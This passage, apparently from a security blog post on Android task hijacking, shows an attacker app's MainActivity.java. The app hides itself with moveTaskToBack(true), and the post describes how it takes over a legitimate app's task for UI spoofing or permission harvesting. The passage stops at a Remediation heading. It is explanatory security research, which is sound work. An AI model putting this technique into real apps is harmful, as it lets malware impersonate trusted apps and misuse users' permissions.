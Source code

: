 Attacker's `MainActivity.java` can be seen below

    package com.zombie.attackerapp;
    
    import androidx.appcompat.app.AppCompatActivity;
    import androidx.core.app.ActivityCompat;
    
    import android.Manifest;
    import android.content.Intent;
    import android.content.pm.PackageManager;
    import android.os.Build;
    import android.os.Bundle;
    import android.view.View;
    import android.widget.EditText;
    import android.widget.TextView;
    
    import com.google.android.material.snackbar.Snackbar;
    
    public class MainActivity extends AppCompatActivity {
        @Override
        protected void onCreate(Bundle savedInstanceState) {
            super.onCreate(savedInstanceState);
            setContentView(R.layout.activity_main);
            moveTaskToBack(true);
        }
    
        @Override
        public void onResume(){
            super.onResume();
            setContentView(R.layout.activity_main);
        }
    }

`moveTaskToBack(true)` is being used to move the task containing this activity to the back of the activity stack.

When all of this is combined and installed on a device, here's how the attack works.

<figure class="kg-card kg-embed-card"><iframe width="740" height="400" src="https://www.youtube.com/embed/RNYJ5FyZh5c?feature=oembed" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe></figure>
- It can be seen that when the Super Secure App is opened normally, it runs in its own task.
- When I open the Attacker app, nothing happens on the foreground but the app opens and minimizes itself hiding from recent apps due to the flags defined above.
- Now when the Super secure app is opened again, it can be seen that the Attacker's app hijacks the task of Super Secure App. 

This is just a simple demonstration but the consequences can range from a simple UI Spoofing attack to permission harvesting as done by the [Promon Security Team](https://www.youtube.com/watch?v=OyFQARwxAE4) which will make it look like the real app is requesting permissions but in actuality, the malware will be using them to exploit further.

* * *

## Remediation
